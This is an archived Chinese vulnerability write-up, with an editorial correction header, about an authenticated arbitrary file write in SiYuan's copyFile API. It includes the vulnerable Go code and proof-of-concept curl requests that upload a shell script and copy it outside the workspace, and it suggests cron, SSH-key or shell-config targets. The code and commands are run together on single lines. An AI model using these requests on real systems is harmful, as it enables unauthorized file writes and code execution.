

# 思源笔记存在前台任意文件写入漏洞

<!-- vulwiki-editorial-rebuild:system-misc -->
## 条目范围与校订

- 本文对象：SiYuan copyFile API
- 文献类型：文件写入分析与模拟验证
- 版本、权限及部署边界：正文明确认证用户/API Token，copyFile目的路径及服务进程写权限；未列版本
- 核验状态：仅重建文本校订；未执行文中代码、PoC 或扫描，未把截图或转载声明记为本站复现

### 具体结论与待核项

以下为原归档的逐项勘误与证据缺口；可由文本确定的问题已在下文订正，仍缺来源的事实保持待核。

1. 标题前台容易误解未认证，正文需要API Token，角色权限链未审计
2. 写入/tmp后由作者手动sh执行只证明模拟触发，不能称直接远程RCE；cron/SSH/shell配置都需额外触发、权限和格式条件
3. root输出取决部署以root运行，不能据文件写入推出提权；任意位置仍受OS权限限制
4. 源码和curl均粘为单行，脚本shebang与命令粘连不可执行；没有实际HTTP响应或版本证据
5. 源码只能公众号口令获取，无提交/官方修复/CVE依据，0day标签不是事实

### 操作风险

写入/tmp后由作者手动sh执行只证明模拟触发，不能称直接远程RCE；cron/SSH/shell配置都需额外触发、权限和格式条件；root输出取决部署以root运行，不能据文件写入推出提权；任意位置仍受OS权限限制

技术请求、代码与实验方法按原文保留；其中的破坏性动作仅限授权、可恢复的隔离环境。缺失代码、参数或版本事实不猜补。

### 来源追溯

- 原文参考链接（未重新核验）：<http://target:6806/api/file/putFile>
- 原文参考链接（未重新核验）：<http://target:6806/api/file/copyFile>
- 原始披露 URL 未确认；既有归档来源标签保留，不能替代原始公告

### 归档技术正文

XingYue404
                    XingYue404  星悦安全   2026-02-08 07:53  
  
  
  
点击上方  
蓝字  
关注我们 并设为  
星标  
## 0x00 前言  
  
思源笔记是一款隐私优先的个人知识管理系统，支持细粒度块级引用和 Markdown 所见即所得  
，开源且支持完全离线使用，同时也支  
持  
端到端加密  
同步。融合块、大纲和双向链接，构建永恒的数字花园  
  
  
## 0x01 漏洞研究&复现  
  
/api/file/copyFile  
端点不验证dest  
参数，允许认证用户将文件写入文件系统中的任意位置。可直接导致远程代码执行（RCE），通过写入敏感位置，如cron作业、SSH authorized_keys作业或shell配置文件.  
  
```
// kernel/api/file.go lines 94-139func copyFile(c *gin.Context) {    // ...    src := arg["src"].(string)    src, err := model.GetAssetAbsPath(src)  // src is validated    // ...    dest := arg["dest"].(string)  // dest is NOT validated!    if err = filelock.Copy(src, dest); err != nil {        // ...    }}
```  
  
  
src   
参数通过 model.GetAssetAbsPath()   
正确验证，但dest  
参数接受任意绝对路径且无需验证，允许文件写入工作区目录之外  
### 步骤1：将恶意内容上传到工作区  
  
```
curl -X POST "http://target:6806/api/file/putFile" \  -H "Authorization: Token <API_TOKEN>" \  -F "path=/data/assets/malicious.sh" \  -F "file=@-;filename=malicious.sh" <<< '#!/bin/shid > /tmp/pwned.txthostname >> /tmp/pwned.txt'
```  
  
### 步骤2：复制到任意位置（例如，/tmp）  
  
```
curl -X POST "http://target:6806/api/file/copyFile" \  -H "Authorization: Token <API_TOKEN>" \  -H "Content-Type: application/json" \  -d '{"src": "assets/malicious.sh", "dest": "/tmp/malicious.sh"}'
```  
  
### 步骤3：验证文件是否写入工作区外  
  
```
cat /tmp/malicious.sh# Output: #!/bin/sh#         id > /tmp/pwned.txt#         hostname >> /tmp/pwned.txt
```  
  
### 成功案例：  
  
```
# Write script to /tmpcurl -X POST "http://target:6806/api/file/copyFile" \  -H "Authorization: Token <API_TOKEN>" \  -d '{"src": "assets/malicious.sh", "dest": "/tmp/malicious.sh"}'# Execute (simulating cron or login trigger)sh /tmp/malicious.sh# Resultcat /tmp/pwned.txt# uid=0(root) gid=0(root) groups=0(root)...
```  
  
## 0x02 源码下载  
  
**标签:代码审计，0day，渗透测试，系统，通用，0day，闲鱼，交易所**  
  
**关注下方公众号，发送 260208 获取源码!**  
  
****  
  
****  
**免责声明:文章中涉及的程序(方法)可能带有攻击性，仅供安全研究与教学之用，读者将其信息做其他用途，由读者承担全部法律及连带责任，文章作者和本公众号不承担任何法律及连带责任，望周知！！!**  
  


---

> 来源：gelusus/wxvl（微信公众号漏洞文章自动归档，原始披露 URL 尚未确认，现有链接按来源追溯区分别标注）
